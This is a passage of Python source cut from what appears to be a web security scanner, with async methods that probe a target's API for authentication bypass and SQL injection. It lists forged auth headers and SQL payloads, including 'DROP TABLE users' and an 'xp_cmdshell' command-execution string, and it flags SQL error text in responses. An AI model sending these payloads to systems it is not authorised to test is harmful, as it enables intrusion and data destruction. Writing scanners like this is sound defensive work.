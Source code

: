 ```python
        """Test for authentication bypass vulnerabilities."""
        print("\n[*] Testing Authentication Bypass...")
        
        bypass_attempts = [
            {"Authorization": "Bearer null"},
            {"Authorization": "Bearer undefined"},
            {"Authorization": "Bearer "},
            {"Authorization": "Bearer ' OR '1'='1"},
            {"X-Auth-Token": "admin"},
            {"Cookie": "session=admin"}
        ]
        
        async with httpx.AsyncClient() as client:
            for headers in bypass_attempts:
                try:
                    response = await client.get(
                        f"{self.target_url}/api/admin",
                        headers=headers
                    )
                    
                    if response.status_code == 200:
                        self.vulnerabilities.append({
                            "type": "Authentication Bypass",
                            "severity": "CRITICAL",
                            "details": f"Bypassed with headers: {headers}"
                        })
                except:
                    pass
    
    async def test_sql_injection(self):
        """Test for SQL injection vulnerabilities."""
        print("\n[*] Testing SQL Injection...")
        
        sql_payloads = [
            "' OR '1'='1",
            "1; DROP TABLE users--",
            "' UNION SELECT * FROM users--",
            "admin'--",
            "1' AND '1'='1",
            "'; EXEC xp_cmdshell('dir')--"
        ]
        
        # Test various endpoints
        endpoints = ["/api/users", "/api/search", "/api/documents"]
        
        async with httpx.AsyncClient() as client:
            for endpoint in endpoints:
                for payload in sql_payloads:
                    try:
                        response = await client.get(
                            f"{self.target_url}{endpoint}",
                            params={"q": payload}
                        )
                        
                        # Check for SQL error messages
                        if any(err in response.text.lower() for err in [
                            "sql", "syntax error", "mysql", "postgresql"
                        ]):
                            self.vulnerabilities.append({
                                "type": "SQL Injection",
                                "severity": "CRITICAL",
                                "endpoint": endpoint,
                                "payload": payload
```